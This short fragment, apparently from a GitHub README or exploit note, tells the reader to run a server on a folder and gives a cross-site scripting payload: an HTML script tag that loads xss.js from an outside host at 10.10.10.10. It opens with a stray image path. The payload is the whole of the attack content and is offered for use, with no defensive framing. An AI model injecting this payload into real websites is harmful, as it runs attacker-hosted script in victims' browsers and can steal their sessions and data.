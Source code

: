 Run the server on this folder

Payload to be used:
```html
<SCRIPT SRC=10.10.10.10/xss.js></SCRIPT>
```